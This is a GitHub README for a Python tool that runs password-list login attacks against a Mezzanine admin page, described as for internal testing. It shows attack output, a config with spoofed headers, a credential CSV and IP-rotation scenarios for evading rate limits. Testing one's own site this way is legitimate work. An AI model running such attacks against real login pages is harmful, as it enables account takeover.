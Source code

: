 # Requests Attacker

## Overview

Password list attack to mezzanine admin page for internal test by using requests

## Requirement

- python3
- pip3
- git

## Usage

- basic usage

```
(requests_attacker) MacBook-Pro-4% python attacker.py
User: melindajones, Pass: k9N?OPj76*fO, Result: Failed
User: scottaguirre, Pass: 4w7^1}43HNJ, Result: Failed
User: fschmidt, Pass: i%@9j~AJA^ja=O7, Result: Failed
User: tom, Pass: tom, Result: Succeeded
```

- attcker config file

```
[general]
url=http://127.0.0.1:8000/ja/admin/login/
account=username
#account=email
scenario=test4
#test1~6

[http_headers]
# User-Agent = random
User-Agent=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:17.0) Gecko/20100101 Firefox/17.0.6
Referer=http://point.recruit.co.jp/
Accept=text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept_Language=ja,en-us;q=0.7,en;q=0.3

[interval]
max=3
min=1
```

- modify user_id and password

```
(requests_attacker) MacBook-Pro-4% head -n 3 account_list.csv
richard59,richard59@green.biz,@2~OMZ025
melindajones,melindajones@lane.com,k9N?OPj76*fO
scottaguirre,scottaguirre@parker.com,4w7^1}43HNJ
```

- modify ip addr change scenario
  - test1: changing ip randomly per acccess
  - test2: changing ip incremently per acccess
  - test3: changing ip randomly per 10 acccess
  - test4: changing ip incremently per 10 acccess
  - test5: changing ip randomly by random probability
  - test6: changing ip incremently by random probability
    
## Install

```
git clone https://github.com/kazu0716/requests_attacker.git
cd ./requests_attacker
pip3 install -r requirement.txt
python3 attacker.py
```
